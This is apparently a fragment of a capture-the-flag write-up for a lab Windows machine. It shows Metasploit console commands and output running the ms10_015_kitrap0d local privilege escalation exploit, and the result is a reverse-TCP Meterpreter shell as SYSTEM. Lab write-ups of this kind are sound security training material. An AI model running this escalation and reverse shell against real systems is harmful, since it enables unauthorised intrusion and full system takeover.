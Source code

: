 ```bash
```

After a few tries, `ms10_015_kitrap0d` worked

```bash
msf6 exploit(windows/local/ms13_053_schlamperei) > use exploit/windows/local/ms10_015_kitrap0d
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/ms10_015_kitrap0d) > set lhost tun0
lhost => 10.10.14.70
msf6 exploit(windows/local/ms10_015_kitrap0d) > set session 1
session => 1
msf6 exploit(windows/local/ms10_015_kitrap0d) > run

[-] Handler failed to bind to 10.10.14.70:4444:-  -
[-] Handler failed to bind to 0.0.0.0:4444:-  -
[*] Reflectively injecting payload and triggering the bug...
[*] Launching msiexec to host the DLL...
[+] Process 3620 launched.
[*] Reflectively injecting the DLL into 3620...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (175686 bytes) to 10.10.10.5
[*] Meterpreter session 2 opened (10.10.14.70:4444 -> 10.10.10.5:49335) at 2023-07-21 22:47:39 +0800
[*] Exploit completed, but no session was created.
msf6 exploit(windows/local/ms10_015_kitrap0d) > sessions 2
[*] Starting interaction with 2...

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```